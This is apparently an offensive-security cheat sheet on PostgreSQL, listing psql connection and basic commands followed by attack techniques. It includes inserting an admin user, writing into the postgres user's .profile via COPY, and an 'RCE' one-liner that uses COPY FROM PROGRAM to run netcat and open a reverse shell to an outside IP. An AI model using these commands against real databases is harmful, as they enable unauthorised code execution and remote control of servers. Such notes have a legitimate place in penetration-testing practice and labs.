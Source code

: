 ```yaml
---
title: "Postgresql"
date: 2024-7-9
tags: ["postgresql", "database"]
---
```


---
### General

#### Connect to postgresql Database

```bash
psql -h 127.0.0.1 -U <USER> -p 5432 -d <DB_NAME>
```

```bash
psql postgresql://<USER>:<PASSWORD>@localhost:5432/<DB_NAME>
```

#### Basic Commands

```bash
# Show databases
\list
```

```bash
# Use database
\connect <DB_NAME>
```

```bash
# Show tables in current database
\dt
```

```bash
# Dump data from table
select * from <TABLE_NAME>;
```

```bash
# Insert data into table (e.g)
insert into <TABLE_NAME> (username, password, role) values ('user', 'password', 'admin');
```

```bash
# Write text
copy (select 'test') to '/var/lib/postgresql/.profile';
```

```bash
# Exit
\q
```

### RCE

```bash
# Only superuser
CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM 'nc -e /bin/bash 10.10.14.10 1337 &'
```

<br>
